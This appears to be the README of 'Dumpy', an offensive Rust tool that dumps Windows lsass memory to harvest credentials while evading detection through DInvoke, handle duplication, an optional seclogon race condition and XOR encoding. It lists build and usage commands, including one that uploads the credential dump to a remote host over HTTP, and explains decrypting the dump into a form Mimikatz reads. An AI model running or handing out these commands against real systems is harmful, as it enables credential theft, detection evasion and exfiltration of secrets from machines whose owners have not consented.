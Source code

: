# Description

This tool dynamically calls MiniDumpWriteDump to dump lsass memory content. This process is done without opening a new process handle to lsass and using [DInvoke_rs](https://github.com/Kudaes/DInvoke_rs) to make it harder to detect its malicious behaviour. In order to obtain a valid process handle without calling OpenProcess over lsass, all process handles in the system are analyzed using NtQuerySystemInformation, NtDuplicateObject, NtQueryObject and QueryFullProcessImageNameW.

NTFS Transaction are used in order to xor the memory dump before storing it on disk or sending it throught HTTP.

**Support added for both x86 and x64**.

# Compilation 

Just compile the code on `release` mode and execute it:

	C:\Users\User\Desktop\Dumpy\dumpy> cargo build --release
	C:\Users\User\Desktop\Dumpy\dumpy\target\x86_64-pc-windows-msvc\release> dumpy.exe -h

In case that you want to compile the tool for a x86 system, modify the value of the option "target" in the file .cargo\config (e.g: target = "i686-pc-windows-msvc").

# Usage

	Usage: dumpy.exe --dump|--decrypt [options]

	Options:
	    -h, --help          Print this help menu.
	        --dump          Dump lsass.
	        --decrypt       Decrypt a previously generated dump file.
	    -f, --force         Force seclogon's service to leak a lsass handle
	                        through a race condition.
	    -k, --key           Encryption key [default: 1234abcd]
	    -i, --input         Encrypted dump file [default: c:\temp\input.txt]
	    -o, --output        Destination path [default: c:\temp\output.txt]
	    -u, --upload        Upload URL

Dumpy has two main actions:

- **dump**: It will execute the main logic to dump the lsass. By default, it will store the result in a xored text file with a random name in the current directory. The option **upload** allows to send the memory content over HTTP to a remote host, avoiding the creation of the xored file on disk. I've used [this simple HTTP server](https://gist.github.com/smidgedy/1986e52bb33af829383eb858cb38775c) in order to handle the upload, but any other HTTP server that supports **multipart/form-data requests** will work.

		C:\Temp> dumpy.exe --dump -k secretKey -u http://remotehost/upload

If you want to force the leakage of a handle to the lsass through the race condition in seclogon's service described by [Antonio Cocomazzi](https://twitter.com/splinter_code) in [this post](https://splintercod3.blogspot.com/p/the-hidden-side-of-seclogon-part-3.html), just use the option **force**:

		C:\Temp> dumpy.exe --dump -k secretKey -u http://remotehost/upload --force

- **decrypt**: This action allows to obtain the decrypted memory dump in the same format that tools like Mimikatz would expect. As arguments it expects the xored memory dump, the encryption key and the output file path. In case the xored file has been uploaded using HTTP, **it is required to perform a base64 decoding of the content before this decryption process**.

		C:\Temp> dumpy.exe --decrypt -i xored.txt -o decrypted.txt -k secretKey
